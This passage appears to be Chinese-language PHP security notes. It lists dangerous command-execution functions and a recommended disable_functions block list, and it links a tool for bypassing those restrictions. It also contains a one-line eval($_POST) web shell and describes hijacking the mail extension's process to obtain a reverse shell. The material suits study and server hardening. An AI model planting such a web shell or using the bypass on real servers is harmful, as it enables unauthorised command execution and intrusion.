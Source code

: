 类似的关于内置函数的问题还有挺多的,有兴趣的可以去发现一下,使用`Google`

## 危险函数与扩展

### 命令相关函数

exec()
passthru()
shell_exec()
system()
pcntl_exec()
pcntl_fork()
proc_open()
popen()

**禁用函数列表**

```
dl,exec,system,passthru,popen,proc_open,pcntl_exec,shell_exec,mail,imap_open,imap_mail,putenv,ini_set,apache_setenv,symlink,link
```

```php
<?php eval($_POST['a']);
```

有兴趣可以看一下链接

[一个各种方式突破Disable_functions达到命令执行的shell](https://github.com/l3m0n/Bypass_Disable_functions_Shell)

权限

mail这个扩展

发邮件的，他会去调用系统进程，进行网络传输

hacker利用mail扩展调用进程的时候劫持这个进程，然后，让进程发起一个tcp请求达到反弹shell的目的